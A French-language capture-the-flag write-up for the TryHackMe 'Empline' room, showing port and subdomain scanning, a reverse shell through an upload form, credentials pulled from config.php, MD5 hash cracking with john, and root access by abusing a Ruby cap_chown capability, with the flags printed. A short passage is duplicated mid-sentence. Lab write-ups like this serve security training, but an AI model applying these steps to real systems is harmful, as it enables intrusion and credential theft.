




# Empline #  

## Task 1 Deploy The Box ## 

## Task 2 Submit The Flags ## 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.181.112 empline.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A empline.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-03 14:26 CET
Nmap scan report for empline.thm (10.10.181.112)
Host is up (0.033s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 85
|   Capabilities flags: 63487
|   Some Capabilities: SupportsCompression, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolOld, ODBCClient, DontAllowDatabaseTableColumn, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolNew, ConnectWithDatabase, InteractiveClient, FoundRows, LongColumnFlag, LongPassword, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 8|-hCWl:wn?1stl@8;]B
|_  Auth Plugin Name: mysql_native_password
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/3%OT=22%CT=1%CU=34509%PV=Y%DS=2%DC=T%G=Y%TM=6182902
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=106%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   34.52 ms 10.9.0.1
2   34.71 ms empline.thm (10.10.181.112)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 561.15 seconds

```

Nmap nous montre plusieurs service : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.    
Le service MYSQL sur le port 3306.   

    

Sur le site principale en trouve pas grand chose.   

```bash
tim@kali:~$ ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://empline.thm -H "Host: FUZZ.empline.thm"


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://empline.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.empline.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 0
________________________________________________

mail                    [Status: 200, Size: 14058, Words: 5495, Lines: 288]
vpn                     [Status: 200, Size: 14058, Words: 5495, Lines: 288]
m                       [Status: 200, Size: 14058, Words: 5495, Lines: 288]
blog                    [Status: 200, Size: 14058, Words: 5495, Lines: 288]
dev                     [Status: 200, Size: 14058, Words: 5495, Lines: 288]
ns                      [Status: 200, Size: 14058, Words: 5495, Lines: 288]
autodiscover            [Status: 200, Size: 14058, Words: 5495, Lines: 288]

tim@kali:~$ ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://empline.thm -H "Host: FUZZ.empline.thm" --fw 5495


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://empline.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.empline.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 5495
________________________________________________

job                     [Status: 200, Size: 3671, Words: 209, Lines: 102]
www.job                 [Status: 200, Size: 3671, Words: 209, Lines: 102]
:: Progress: [4989/4989] :: Job [1/1] :: 935 req/sec :: Duration: [0:00:09] :: Errors: 0 ::
```   

On regarde les sous domaine ave ffuf.   
On trouve 2 sous domaines qui sont :  
job et www.jo
tim@kali:~$ ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://empline.thm -H "Host: FUZZ.empline.thm" --fw 5495


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://empline.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.empline.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 5495
________________________________________________

job                     [Status: 200, Size: 3671, Words: 209, Lines: 102]
www.job                 [Status: 200, Size: 3671, Words: 209, Lines: 102]
:: Progress: [4989/4989] :: Job [1/1] :: 935 req/sec :: Duration: [0:00:09] :: Errors: 0 ::   

On regarde les sous deomommaine ave ffuf.   
On trouve 2 sous domaines qui sont :  
job et www.job.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.184.66 job.empline.thm ' >> /etc/hosts"  
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.184.66 www.job.empline.thm ' >> /etc/hosts"   
```

On ajoute les sous domaines dans le fichier hosts.    



On tombe un page de connexion.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://job.empline.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q

/ajax                 (Status: 301) [Size: 317] [--> http://job.empline.thm/ajax/]
/attachments          (Status: 301) [Size: 324] [--> http://job.empline.thm/attachments/]
/careers              (Status: 301) [Size: 320] [--> http://job.empline.thm/careers/]    
/ckeditor             (Status: 301) [Size: 321] [--> http://job.empline.thm/ckeditor/]   
/db                   (Status: 301) [Size: 315] [--> http://job.empline.thm/db/]         
/.htpasswd            (Status: 403) [Size: 280]                                          
/.hta                 (Status: 403) [Size: 280]                                          
/images               (Status: 301) [Size: 319] [--> http://job.empline.thm/images/]     
/index.php            (Status: 200) [Size: 3671]                                         
/javascript           (Status: 301) [Size: 323] [--> http://job.empline.thm/javascript/] 
/js                   (Status: 301) [Size: 315] [--> http://job.empline.thm/js/]         
/lib                  (Status: 301) [Size: 316] [--> http://job.empline.thm/lib/]        
/modules              (Status: 301) [Size: 320] [--> http://job.empline.thm/modules/]    
/rss                  (Status: 301) [Size: 316] [--> http://job.empline.thm/rss/]        
/scripts              (Status: 301) [Size: 320] [--> http://job.empline.thm/scripts/]    
/server-status        (Status: 403) [Size: 280]                                          
/src                  (Status: 301) [Size: 316] [--> http://job.empline.thm/src/]        
/test                 (Status: 301) [Size: 317] [--> http://job.empline.thm/test/]       
/temp                 (Status: 301) [Size: 317] [--> http://job.empline.thm/temp/]       
/upload               (Status: 301) [Size: 319] [--> http://job.empline.thm/upload/]     
/.htaccess            (Status: 403) [Size: 280]                                          
/vendor               (Status: 301) [Size: 319] [--> http://job.empline.thm/vendor/]     
/wsdl                 (Status: 301) [Size: 317] [--> http://job.empline.thm/wsdl/]       
/xml                  (Status: 301) [Size: 316] [--> http://job.empline.thm/xml/]
```

On voit plusieurs répertoires trouvés par gobuster.

   
   
   
   

Dans careers -> Show all Jobs -> Mobile Dev -> Apply to position il y un formulaire.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo pwncat -l 1234   
```

On écoute sur le port 1234 pour avoir un shell.   

   
   

On envoie un reverse shell.  

   

On a notre notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[sudo] Mot de passe de tim : 
[23:20:55] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[23:21:24] received connection from 10.10.184.66:36572                                                                                                                                                                              bind.py:76
[23:21:25] 0.0.0.0:1234: upgrading from /bin/dash to /bin/bash                                                                                                                                                                  manager.py:504
[23:21:26] 10.10.184.66:36572: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$
```

On a un shell.   

```bash
(remote) www-data@empline:/$ cd /var/www/opencats/
(remote) www-data@empline:/var/www/opencats$ ls 
CHANGELOG.MD   LICENSE.md    ajax	  careers	   ckeditor	  config.php	 docker  index.php	    js	      modules		rebuild_old_docs.php  src   upload  xml
Error.tpl      QueueCLI.php  ajax.php	  careersPage.css  composer.json  constants.php  ie.css  installtest.php    lib       not-ie.css	rss		      temp  vendor
INSTALL_BLOCK  README.md     attachments  ci		   composer.lock  db		 images  installwizard.php  main.css  optional-updates	scripts		      test  wsdl
```

On voit un fichier config.php.  

```bash
...
/* Database configuration. */
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'ng6pUFvsGNtw');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
...
```

Dans le fichier de configuration on voit des identifiants : james:ng6pUFvsGNtw    
On a aussi une basse de donnée opencats.   

```bash
(remote) www-data@empline:/var/www/opencats$ mysql -h 127.0.0.1 -D opencats -u james -p
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 148
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [opencats]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)

MariaDB [opencats]> use opencats;
Database changed

atabase changed
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
| attachment                           |
| calendar_event                       |
........................................
| user                                 |
| user_login                           |

MariaDB [opencats]> select * from user;

admin:b67b5ecc5d8902ba59c65596e4c053ec    
george:86d0dfda99dbebc424eb4407947356ac   
james:e53fbdb31890ff3bc129db0e27c473c9
```

On se connecte avec les informations sur la base de donnée opencats.  
On trouve trois utilisateurs avec leurs hash.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti b67b5ecc5d8902ba59c65596e4c053ec
MD5 [HC: 0] [JtR: raw-md5]
```

On identifie le hash qui est du md5.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ john ./hash -w=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
pretonnevippasempre (?)
1g 0:00:00:00 DONE (2021-11-04 00:26) 1.666g/s 23905Kp/s 23905Kc/s 55372KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```

On trouve un mot de passe qui est : pretonnevippasempre   

   

Avec le mot de passe on arrive à se connecter sur le compte de george. 

**User.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat george@job.empline.thm
[00:44:52] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
Password: *******************
[00:46:01] job.empline.thm:22: registered new host w/ db                                                                                                                                                                        manager.py:504
(local) pwncat$
(remote) george@empline:/home/george$ ls
user.txt
(remote) george@empline:/home/george$ cat user.txt 
91cb89c70aa2e5ce0e0116dab099078e
```

On se connecte sur le compte SSH de george.   
On voit un fichier user.txt
On le lit et on a le flag qui est : 91cb89c70aa2e5ce0e0116dab099078e  

**Root.txt**  

```bash
(local) pwncat$ run enumerate
Module 'enumerate' Results
- /usr/local/bin/ruby -> [cap_chown+ep]
```

powcat nous montre que ruby a la capacité de changer les droits.  

```bash
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/")' > exploit.rb
(remote) george@empline:/home/george$ echo 'File.chown(1002, nil, "/root/root.txt")' >> exploit.rb
(remote) george@empline:/home/george$ ruby exploit.rb
(remote) george@empline:/home/george$ cat /root/root.txt
74fea7cd0556e9c6f22e6f54bc68f5d5
```

Je dit a ruby de modifier les droits pour pouvoir lire root.txt.  
Un foit l'exploit exécuté,on lit le flag.   
Le flag est : 74fea7cd0556e9c6f22e6f54bc68f5d5   

